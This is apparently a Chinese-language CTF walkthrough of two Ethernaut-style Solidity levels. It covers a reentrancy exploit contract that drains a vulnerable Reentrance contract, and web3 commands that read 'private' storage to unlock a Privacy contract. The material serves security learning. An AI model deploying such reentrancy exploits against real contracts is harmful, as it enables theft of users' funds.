import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

很经典的重入漏洞，转账msg.sender.call{value: _amount}("");写在balances[msg.sender] -= _amount;之前，如果转账的目标地址是合约，那就会触发目标合约的fallback方法或者receive方法，这里就会将代码执行的控制权转移到其他合约，如果目标合约一直调用withdraw方法就会掏空合约里面的钱

攻击代码：

```
contract Attack {
    Reentrance public reentranceContract; 

    // 初始化合约地址
    constructor(Reentrance _reentranceContract) public  {
        reentranceContract = _reentranceContract;
    }

    // 回调函数，用于重入攻击Reentrance合约，反复的调用目标的withdraw函数
    receive() external payable {
        reentranceContract.withdraw(1);
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attackReentrance() external payable {
        reentranceContract.withdraw(1);
    }
}
```

复现：

用户1部署合约，调用donate先存入5 wei到合约




目标就是偷走这里面的5 wei

用户2部署攻击合约：

献给攻击合约存入1 wei，要满足balances[msg.sender] >= _amount条件



然后执行attackReentrance

可以看到余额为0了



且攻击合约余额为很大值，这里估计是整数溢出了，不过这里查看余额是全部都过来了，我演示截图多存了一些，正常来说是6 wei



# Privacy

```
The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

Understanding how storage works
Understanding how parameter parsing works
Understanding how casting works

该合约的创建者非常小心地保护其存储的敏感区域。

解锁此合同以通关。

可能有帮助的事情：

了解存储的工作原理
了解参数解析的工作原理
了解铸造的工作原理
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

初始化data，如果输入的key和data能对上就解锁

跟Vault差不多咯，读取链上的信息，但是这里的索引没这么简单，因为要的是data[2]，就得看合约的存储布局了

https://learnblockchain.cn/books/geth/part7/storage.html





```
	bool public locked = true;
    uint256 public ID = block.timestamp; 
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data; 
```

这样算起来，locked一个槽 ID需要 32 字节占用 1 个插槽 uint三个变量一个槽 bytes32[3]是接下来三个槽

所以需要的data[2]就在第6个插槽，索引从0开始，所以是:

```
web3.eth.getStorageAt(contract.address, 5)
```




看代码还需要将data[2]从bytes32转换成bytes16，截取一半

```
contract.unlock((await web3.eth.getStorageAt(contract.address, 5)).slice(0,32))
```

